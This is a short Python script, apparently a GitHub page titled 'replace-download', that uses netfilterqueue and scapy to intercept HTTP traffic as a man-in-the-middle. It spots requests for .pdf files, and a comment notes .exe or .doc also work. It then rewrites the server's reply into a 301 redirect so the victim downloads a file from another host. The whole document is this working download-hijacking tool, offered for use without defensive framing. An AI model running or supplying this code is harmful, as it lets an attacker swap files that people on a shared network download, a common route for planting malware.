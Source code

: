 # replace-download-
import netfilterqueue
import scapy.all as scapy


ack_list = []
def process_packet(packet):
    scapy_packet = scapy.IP(packet.get_payload())
    if scapy_packet.haslayer(scapy.Raw):
        if scapy_packet[scapy.TCP].dport == 80:
            if ".pdf" in scapy_packet[scapy.Raw].load:  #here in the "_" you can file like .exe .pdf .doc etc 
                print(" [+] pdf Request ")
                ack_list.append(scapy_packet[scapy.TCP].ack)

        elif scapy_packet[scapy.TCP].sport == 80:
            if scapy_packet[scapy.TCP].seq in ack_list:
                ack_list.remove(scapy_packet[scapy.TCP].seq)
                print("[+] Replacing file")
                scapy_packet[scapy.Raw].load = "HTTP/1.1 301 Moved Permantly\nLocation: https://www.anme.com.mx/libros/Hair%20Care%20An%20Illustrated%20Dermatologic%20Handbook.pdf\n\n"
                del scapy_packet[scapy.IP].len
                del scapy_packet[scapy.IP].chksum
                del scapy_packet[scapy.TCP].chksum
                packet.set_payload(str(scapy_packet))


    packet.accept()
queue = netfilterqueue.NetfilterQueue()
queue.bind(0, process_packet)
queue.run()
